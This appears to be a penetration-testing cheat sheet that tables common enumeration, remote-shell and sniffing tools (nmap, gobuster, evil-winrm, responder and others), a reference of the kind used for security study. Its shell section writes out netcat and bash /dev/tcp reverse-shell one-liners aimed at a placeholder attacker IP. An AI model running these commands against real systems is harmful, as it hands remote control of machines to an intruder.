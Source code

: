 # Overview of Tools
## Enumeration
Tools for data gathering, analysis of infrastructure, enumeration. This includes tools like port scanning, service discovery, web content scanner.

| Tools | Description | Use | Tags |
| ----- | ----- | ----- | ----- |
| nmap | Port scanning | Scan for open ports and services, contains some scripts for automating tasks | Ports, Web, CVE |
| legion | NMAP GUI with some integrations | Scan for ports and open services, run NMAP scripts ans some service related tools | Ports, Web, CVE, GUI |
| dirb | Web content scanner | Crawls a webpage and finds hidden directories based on a wordlist | Wordlist, Web Content Scanner, Crawler, Directory |
| gobuster | Web content scanner, just brute force based with wordlists | Brute forces URIs and subdomains of a Web server | Wordlist, Web content scanner, Directory, DNS, Domains, URL |

## Remote access, Shells
Getting a shell and access to a target system.

| Tools | Description | Use | Tags |
| ----- | ----- | ----- | ----- |
| evil-winrm | A shell for Windows Remote Management focused on the evil side. It includes some tools for exploiting the target after gaining access. | WinRM shell access + exploiting target | WinRM, Remote Shell, Payloads, Exploiting |
| `netcat -lvp <port>` |  A netcat listener for incoming connections | Used for listening for the remote shell | Remote Shell, TCP, Listener |
| `netcat <attacker ip> <port> -e <the shell executable>` | Sends process output to a TCP connection and gets input from TCP connection | Used for opening a reverse shell (victim to target) on the target | Remote Shell, TCP |
| `bash -i >& /dev/tcp/<ATTACKER-IP>/<ATTACKER-PORT> 0>&1` | Sends process output to a TCP connection and gets input from TCP connection | Used for opening a reverse shell (victim to target) on the target if netcat is not usable for some reason (of if you don't want to download an extra file). It uses piping from bash to a tcp socket. | Bash, Reverse Shell, TCP |

## Sniffing
Packet and network sniffing for various protocols.

| Tools | Description | Use | Tags |
| ----- | ----- | ----- | ----- |
| tcpdump | TCP, UDP, ICMP packet sniffer | Used to sniff connections | TCP, UDP, ICMP, Sniffing |
| responder | NBT-NS, LLMNR & MDNS Responder | Used to poison windows specific services, gathering password hashes from the service request (for example from NTLM) etc. | NTLM, Responder, Windows, NetBIOS, NBT-NS, LLMNR, Link-Local Multicast Name Resolution |
